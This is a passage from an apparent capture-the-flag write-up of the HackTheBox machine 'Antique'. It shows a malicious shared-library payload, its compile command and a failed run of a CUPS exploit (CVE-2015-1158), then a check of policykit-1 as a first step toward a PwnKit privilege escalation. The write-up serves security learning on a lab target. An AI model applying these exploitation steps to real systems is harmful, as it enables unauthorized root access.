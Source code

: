     void main() {};
    
    void evil() {
        system("touch /0xdf");
    }
    

If this works, it will create a file at the filesystem root.

I’ll compile it:

    
    
    oxdf@hacky$ gcc -shared -o so.so -fPIC so.c 
    

And upload it to Antique using a Python webserver on my host and `wget` on
Antique. Now, I’ll run the exploit through the tunnel:

    
    
    oxdf@hacky$ python2 cve-2015-1158.py -a 127.0.0.1 -b 9631 -c /tmp/so.so
    ...[snip]...
    [*]     locate available printer
    [-]     no printers
    

It fails because there are no printers available (something I noted above in
the admin website).

### PwnKit

#### Find Vulnerable

Something like [LinPEAS](https://github.com/carlospolop/privilege-escalation-
awesome-scripts-suite/tree/master/linPEAS) will identify this host is
vulnerable. This [post from Datadog](https://www.datadoghq.com/blog/pwnkit-
vulnerability-overview-and-remediation/) shows how to manually check by
running `dpkg -s policykit-1`:

    
    
    lp@antique:/dev/shm$ dpkg -s policykit-1
    Package: policykit-1
    Status: install ok installed
    Priority: optional
    Section: admin
    Installed-Size: 560
    Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
    Architecture: amd64
    Multi-Arch: foreign
    Version: 0.105-26ubuntu1.1
    Depends: dbus, libpam-systemd, libc6 (>= 2.7), libexpat1 (>= 2.0.1), libglib2.0-0 (>= 2.37.3), libpam0g (>= 0.99.7.1), libpolkit-agent-1-0 (= 0.105-26ubuntu1.1), libpolkit-gobject-1-0 (= 0.105-26ubuntu1.1), libsystemd0 (>= 213)
    Conffiles:
     /etc/pam.d/polkit-1 7c794427f656539b0d4659b030904fe0
     /etc/polkit-1/localauthority.conf.d/50-localauthority.conf 2adb9d174807b0a3521fabf03792fbc8
     /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf c4dbd2117c52f367f1e8b8c229686b10
    Description: framework for managing administrative policies and privileges
     PolicyKit is an application-level toolkit for defining and handling the policy
     that allows unprivileged processes to speak to privileged processes.
     .
     It is a framework for centralizing the decision making process with respect to
     granting access to privileged operations for unprivileged (desktop)
     applications.
    Homepage: https://www.freedesktop.org/wiki/Software/polkit/
    Original-Maintainer: Utopia Maintenance Team <pkg-utopia-maintainers@lists.alioth.debian.org>
    